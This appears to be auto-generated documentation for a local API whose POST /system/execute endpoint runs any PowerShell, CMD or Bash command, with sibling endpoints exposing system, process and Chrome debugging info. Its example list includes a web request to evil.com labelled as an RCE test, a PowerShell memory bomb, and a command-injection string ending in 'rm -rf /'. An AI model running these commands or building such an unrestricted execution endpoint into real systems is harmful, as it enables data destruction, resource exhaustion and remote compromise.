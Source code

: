 # System Commands API

*Auto-generated from system.py JSDoc comments*

## POST /system/execute

**Function:** `execute_command()`

Execute RAW system commands - PowerShell/CMD/Bash/Shell

**Parameters:**
- `command ` *(string)*: ANY command to execute
- `shell` *(string)* *(optional)*: Shell type (powershell, cmd, bash, sh)
- `timeout` *(number)* *(optional)*: Command timeout in seconds
- `capture_output` *(boolean)* *(optional)*: Capture stdout/stderr

**Returns:** {object} Command execution result or crash data

**Examples:**
```javascript
// Windows PowerShell (requires ENABLE_SHELL_EXECUTION=true)
{"command": "Get-Process", "shell": "powershell"}
// Dangerous PowerShell - test RCE
{"command": "Invoke-WebRequest -Uri evil.com", "shell": "powershell"}
// Memory bomb - test limits
{"command": "while($true) { $a += 'x' * 1000000 }", "shell": "powershell"}
// Linux/macOS bash
{"command": "ps aux", "shell": "bash"}
// Windows CMD
{"command": "dir C:\", "shell": "cmd"}
// Malformed commands - see what happens
{"command": "'; rm -rf / #", "shell": "bash"}
```

---

## GET /system/info

**Function:** `get_system_info()`

Get system information and capabilities

**Returns:** {object} System platform, PowerShell status, available shells

---

## GET /system/processes

**Function:** `get_processes()`

Get running processes using CDP Runtime evaluation

**Returns:** {object} Browser process information via JavaScript

---

## GET /system/chrome/info

**Function:** `get_chrome_info()`

Get Chrome browser information via CDP

**Returns:** {object} Chrome version, capabilities, debugging info

---


